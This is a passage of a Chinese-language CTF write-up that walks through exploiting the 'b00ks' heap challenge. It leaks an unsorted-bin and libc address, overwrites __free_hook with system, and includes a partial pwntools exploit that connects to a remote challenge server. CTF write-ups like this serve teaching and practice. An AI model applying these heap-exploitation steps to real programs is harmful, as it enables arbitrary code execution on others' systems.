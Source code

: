 ![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one18.png?x-oss-process=style/watermark)

3、free书2，此时，book2_name的堆会进入unsorted bin，其fd，bk会指向unsorted bin的链表头，通过其fd指针即可泄露unsorted bin的地址。而book2_name的fd地址可以通过book1 information的地址计算出来，即boo2_name_fd=book1_information+0x30。如上图所示。

4、与思路1相同，使用编辑书的功能，输入一个伪造的fake book1 informtion。使book1的name地址变成我们的boo2_name_fd地址，泄露unosrted bin地址，使boo1的des地址指向book的 des地址，以便修改free_hook的值。book3_des= book1_information + 0x30 + 0x90 + 0x70 + 0x30*3 + 0x10 = book1_information+0x1d0。

```python
edit(1, p64(1) + p64(book1_addr + 0x30) + p64(book1_addr + 0x1d0) + p64(0x20))
change('a'*0x20)
show()
```

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one19.png?x-oss-process=style/watermark)

5、泄露出unsorted bin地址后，可以求得malloc_hook的地址。在glib2.23中，unsorted bin在main_arena+88的位置。而malloc_hook在main_arena上方0x10的位置。即

```python
malloc_hook = u64(r.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - 88 - 0x10
```

6、获取地址以后，剩下的思路就跟思路1的一样啦。获取free_hook的地址和system的地址，通过修改book1的内容，向boo3_des_addr处写入free_hook的内容，在修改boo3的内容，向free_hook中写入system。 

```python
edit(1,p64(__free_hook)+'\x10') #由于sendline会加一个回车，导致size变成0。free的时候就会出问题了，所以要加一个size。
edit(3,p64(system))
delete(3)
```

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one20.png?x-oss-process=style/watermark)

完整exp：

```python
from pwn import *
 
p=remote("node4.buuoj.cn",28876)
elf = ELF('./b00ks')
libc = ELF('./libc-2.23.so')
 
def add(name_size,name,content_size,content):
    p.sendlineafter('> ','1')
    p.sendlineafter('size: ',str(name_size))
    p.sendlineafter('chars): ',name)
    p.sendlineafter('size: ',str(content_size))
    p.sendlineafter('tion: ',content)
def delete(index):
    p.sendlineafter('> ','2')
    p.sendlineafter('delete: ',str(index))
def edit(index,content):
    p.sendlineafter('> ','3')
    p.sendlineafter('edit: ',str(index))
    p.sendlineafter('ption: ',content)
def show():
    p.sendlineafter('> ','4')
def change(author_name):
    p.sendlineafter('> ','5')
    p.sendlineafter('name: ',author_name)
 
p.sendlineafter('name: ','a'*0x1f+'b')
add(0xd0,'aaaaaaaa',0x20,'bbbbbbbb')
show()
p.recvuntil('aaab')
heap_addr = u64(p.recv(6).ljust(8,'\x00'))
```